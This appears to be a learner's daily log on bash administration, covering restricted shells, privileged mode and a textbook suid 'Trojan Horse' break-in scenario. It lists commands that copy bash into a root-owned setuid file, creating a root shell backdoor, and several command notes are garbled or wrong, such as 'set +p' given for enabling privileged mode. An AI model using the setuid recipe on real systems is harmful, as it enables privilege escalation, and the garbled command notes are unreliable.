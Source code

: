 - [Back to Homepage](/README.md)

# 19 July 2025 Report - Day 55 - Bash Administration

## Content

Today I and the intern working on the project discussed about the prooblem and tried to solve together. We found the paralog of gene and found theamino acid sequence of epitope and learnt about the LINE and SINE repeats. Then I completed the chapter-10 with the topics:

1. System Security Features: Restriced Shell

2. A system Break-in scenario: suid script

3. Privileged Mode

Some commands learnt are:
1. To delete/add built-in commands
```bash
enable -f
enable -d
```

2. Turn off restricted mode
```bash
set +r
```

3. *suid* script for `grep`, create Trojan Horse
```bash
cp /bin/bash filename
chown root filename
chmod 4755 filename
/bin/grep "$@"
rm ~/bin/grep
```

4. To enable privileged mode
```bash
set -o privilegded
# or
set +p
```

